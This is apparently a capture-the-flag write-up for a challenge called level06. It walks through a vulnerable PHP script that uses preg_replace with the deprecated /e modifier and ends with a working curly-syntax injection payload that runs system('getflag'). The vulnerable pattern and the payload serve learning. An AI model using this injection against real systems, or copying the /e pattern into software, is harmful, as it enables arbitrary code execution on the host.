 # level06

## php file
"level06.php":
```
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

Let's beautify it:
```
#!/usr/bin/php

<?php
  function ft_second($m)
  {
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
  }

  function ft_first($y, $z)
  {
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "ft_second(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a;
  }

  $result = ft_first($argv[1], $argv[2]);

  print $result;
?>
```

## Php code
We can read the above php code from bottom to top. We call this f_first() function with argv[1] and argv[2] as arguments and print it's result.  
In the "ft_first()" function, we only use the $y and never use the $z.  
We get the contents with "file_get_contents()", so we know that we should provide a file route with the argv[1].  
Then we do the replacement with preg_replace() function and regex.  

## preg_replace and regex
When searching for "preg_replace vulnerbility" we found a possible exploit wiht the "e" modifier. This is a depricated function in php so this also means that the system is using an old version of php.    
It can basicly take the maching input and execute it instead of treating it as plain text.  
So we can try to create a file. Write some php code inside and try to make this script execute it.  

## Attempts
I tried to create a file in /tmp folder as before and write a string mach the pattern(`"/(\[x (.*)\])/e"`).  
So the command will be like: `echo "[x whatever]" > /tmp/getflag`.  
Difficult to make php code execute the function. They are all being printed out as string or spit out some syntax error:  
- '[x system("getflag")]' -> print as string
- '[x ${system("getflag")}]' -> syntax error
- '[x {system("getflag")}]' -> print as string
- '[x ; system("getflag")]' -> print as string
... and so on...

Until I found this: [Complex(curly) syntax](https://www.php.net/manual/en/language.types.string.php#language.types.string.parsing.complex)  

- '[x {${system("getflag")}}]' finaly solve the problem.

## Takeaway
- regex
- php syntaxe
- php Complex(curly) syntax
- preg_replace vulnerbility(deprecated)

